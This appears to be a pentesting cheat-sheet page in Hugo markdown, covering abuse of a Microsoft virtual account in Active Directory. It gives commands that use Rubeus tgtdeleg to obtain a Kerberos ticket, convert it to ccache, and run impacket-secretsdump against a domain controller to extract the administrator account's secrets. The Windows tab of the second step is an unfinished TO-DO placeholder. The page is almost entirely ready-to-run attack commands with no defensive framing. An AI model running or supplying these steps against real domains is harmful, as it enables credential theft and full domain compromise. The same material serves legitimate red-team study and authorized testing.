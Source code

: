 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["machine account", "Microsoft virtual account", "active directory", "ad", "domain controller", "Windows", "rubeus", "kerberos"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
